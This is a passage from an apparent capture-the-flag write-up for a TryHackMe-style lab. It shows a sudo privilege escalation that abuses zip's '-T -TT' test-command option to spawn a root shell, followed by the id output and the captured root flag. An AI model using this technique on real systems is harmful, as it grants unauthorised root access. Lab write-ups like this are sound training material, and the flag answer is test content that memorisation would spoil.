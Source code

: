 Let's use the exploit.

```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# 
```

Looks like we have root privilege. We can verify that using the `id` command.

```
# id
uid=0(root) gid=0(root) groups=0(root)
```

Let's cat the root flag.

```
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

### Answer

```
THM{Z1P_1S_FAKE}
```
